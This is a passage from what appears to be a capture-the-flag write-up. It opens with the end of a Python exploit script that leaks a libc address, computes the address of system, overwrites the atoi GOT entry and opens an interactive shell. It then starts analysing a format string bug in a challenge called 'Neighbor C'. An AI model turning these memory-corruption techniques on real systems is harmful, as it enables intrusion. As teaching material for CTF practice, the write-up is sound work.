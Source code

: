 ```python
r.recvuntil('Bye. ')
r.recv(8)
    
libc_leak = u64(r.recv(6).ljust(8, "\x00"))
libc_main = libc_leak - libc.symbols['setvbuf']
libc_system = libc_main + libc.symbols['system']
gadget = libc_main + 0x45216
set_addr(libc_system, 0x41414141)

r.sendlineafter('choice:', '3')
set_addr(atoi_got, stack_addr-86)
swap()

r.interactive()
```

## Neighbor C

The program is pretty simple, the core part is:
```c
void __fastcall __noreturn sub_8D0(FILE *a1)
{
  while ( fgets(format, 256, stdin) )
  {
    fprintf(a1, format);
    sleep(1u);
  }
  exit(1);
}
```

Here is an obvious format string bug. However, since it redirects output to **stdeerr**, we cannot read leak directly.

